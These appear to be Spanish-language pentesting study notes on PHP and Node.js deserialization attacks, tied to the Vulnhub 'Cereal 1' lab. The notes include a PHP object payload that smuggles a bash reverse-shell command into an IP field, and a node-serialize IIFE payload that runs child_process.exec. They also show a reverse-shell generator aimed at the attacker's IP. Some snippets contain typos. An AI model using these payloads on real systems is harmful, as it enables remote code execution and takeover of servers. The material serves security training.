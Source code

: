 # Ataques de Deserialización

Tags: #Deserializacion #OWASP #Explotacion #Unserialized #IIFE

Los **ataques de deserialización** son un tipo de ataque que aprovecha las vulnerabilidades en los procesos de **serialización** y **deserialización** de objetos en aplicaciones que utilizan la programación orientada a objetos (**POO**).

La serialización es el proceso de convertir un objeto en una secuencia de **bytes** que puede ser almacenada o transmitida a través de una red. La deserialización es el proceso inverso, en el que una secuencia de bytes es convertida de nuevo a un objeto. Los ataques de deserialización ocurren cuando un atacante puede manipular los datos que se están deserializando, lo que puede llevar a la **ejecución de código malicioso** en el servidor.

Los ataques de deserialización pueden ocurrir en diferentes tipos de aplicaciones, incluyendo aplicaciones web, aplicaciones móviles y aplicaciones de escritorio. Estos ataques pueden ser explotados de varias maneras, como:

-   Modificar el objeto serializado antes de que sea enviado a la aplicación, lo que puede causar errores en la deserialización y permitir que un atacante ejecute código malicioso.
-   Enviar un objeto serializado malicioso que aproveche una vulnerabilidad en la aplicación para ejecutar código malicioso.
-   Realizar un ataque de “**man-in-the-middle**” para interceptar y modificar el objeto serializado antes de que llegue a la aplicación.

Los ataques de deserialización pueden ser muy peligrosos, ya que pueden permitir que un atacante tome el control completo del servidor o la aplicación que está siendo atacada.

Para evitar estos ataques, es importante que las aplicaciones validen y autentiquen adecuadamente todos los datos que reciben antes de deserializarlos. También es importante utilizar bibliotecas de serialización y deserialización seguras y actualizar regularmente todas las bibliotecas y componentes de la aplicación para corregir posibles vulnerabilidades.

A continuación se os proporciona el enlace directo a la máquina de Vulnhub donde explotamos un ‘**PHP Deserialization Attack**‘:

-   **Máquina Cereal 1**: [https://www.vulnhub.com/entry/cereal-1,703/](https://www.vulnhub.com/entry/cereal-1,703/)

## Comandos 

* PHP Deserialization Attack
* Se basa en objetos

Interceptamos la petición en BurpSuite
```bash
❯ obj=o%3A8%22pingTest%22%3A1%3A%7Bs%3A9%3A%22ipAddress%22%3Bs%3A14%3A%22192.168.68.110%22%3B%7D&ip=192.168.68.110 # Estructura del objeto original que viaja en formato serializado
❯ obj=o:8"pingTest":1:{s:9:"ipAddress";s:14:"192.168.68.110";}&ip=192.168.68.110       # La deserializamos 
	# 8 = El objeto tiene 8 caracteres 'pingTest' (o=objeto)
	# 9 = Tiene una string de 9 caracteres 'ipAddress' (s=string)
	# 14 = Tiene una string de 14 caracteres '192.168.68.110' (s=string)
```
Lo que hace el servidor es **Deserializar** e interpretar lo que estamos enviando en el objeto y con base lo que estamos enviando, se ejecute una función o un método.

Empezando con el ataque, debemos de aprovecharnos de un campo para poder mandar la data serializada con nuestra ReverShell.
```php
❯ serilaized.php                                  
	<?php 
		class pingTest{
			public $ipAddress = "; bash -c 'bash -i >& /dev/tec/192.168.68.110/443 0>&1'";
			public $isValid = True;
			public $output = "";
		}
	?>
	echo urlencode(serialized(new pingTest));
```

Para poder ver la data serializada en la consola:
```bash
❯ php serialized.php 2>/dev/null; echo 
```

Pegamos el resultado cómo se muestra a continuación y lo mandamos por BurpSuite
```bash
❯ obj=RU5LCoMwFLzKIxTdtImxVuxHpXeQrrKJSaiB0AZf4ka8ewOFFgYGhvmtZJEuGnIht95PHpSTiODt6zkYDKuPo7MKdtbftZ4NYivIdZQ4wUHlX7bQZSCYNotgwSjB-LmkvG5oAueFYFV1hKLLeJ6i8CvEh3RWt8MczV99x-BjSBvJuvUdkD1Z0rWGlvREtg8%2C&v&ip=192.168.68.110  # Pegamos la data serializada, para que al momento de mandarla a la maquina victima la deserialice y la interprete y asi podamos tener una ReverShell
```

---

* Node Js Deserialization Attack
* [NodeJs-Deserialization attack](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) para podernos montar un servicio por el puerto 3000 y practicar 

En este caso la data que se esta enviando esta serializada, primero en urlencode y después en base64

* Función que nos ayudara a serializar algo que le pasemos.
```bash
❯ serilaized.js                    # Original 
	var y = {
	rce : function(){
	require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });
	 },
	}
	var serialize = require('node-serialize');
	console.log("Serialized: \n" + serialize.serialize(y));
```

**IIFE (Inmediatly Invoked Function Expression)** que nos permite  invocar o hacer la llamada inmediatamente. 

Podemos colcar unos **()** antes de la coma y ahí podríamos hacer que no llegue a la parte de serialización y ejecute antes el comando
```bash
❯ serilaized.js                   # Debemos de colocarle el IIFE para que nos ejecute el comando 
	var y = {
	rce : function(){
	require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });
	 }(),
	}
	var serialize = require('node-serialize');
	console.log("Serialized: \n" + serialize.serialize(y));
```

Para poder ver la data serializada del comando anterior en la consola:
```bash
❯ node serialized.js

# El resultado es:
{"rce":"_$$ND_FUNC$$_function(){\n require('child_process').exec('id', function(error, stdout, stderr) {console.log(stdout) });\n }"}'
```


* Función para deserializar la data
```bash
❯ unserilaized.js                   # Original 
	var serialize = require('node-serialize');
	var payload = '{"rce":"_$$ND_FUNC$$_function(){\n require('child_process').exec('id', function(error, stdout, stderr) {console.log(stdout) });\n }"}';
	serialize.unserialize(payload);
```
En Payload debemos de cargar la data serializada, para que esta función me la pueda deserializar. 

```bash
❯ unserilaized.js                   # Debemos de colocarle el IIFE para que nos ejecute el comando y modificandolo 
	var serialize = require('node-serialize');
	var payload = '{"rce":"_$$ND_FUNC$$_function(){require(\'child_process\').exec(\'id\', function(error, stdout, stderr) {console.log(stdout) }); }()"}';
	serialize.unserialize(payload);
```

En la pagina podemos descargar la herramienta para podernos generar una ReverShell de forma serializada
```python 
❯ python2.7 nodejsshell.py <IP> <Port>

	# IP = Maquina de atacante 
	# Port = Nuestro puerto de atacante
```

El resultado lo debemos de colocar ahí:
```bash     
❯ nvim data                  # Debemos de colocarle el IIFE para que nos ejecute el comando
	{"rce":"_$$ND_FUNC$$_function(){resultado del comando anterior}()"}
```

Eso se debe de enviar en base64 
```bash
❯ cat data | base64 -w 0; echo     # Para que nos lo muestre en una unica linea y no nos muestre al final el #
```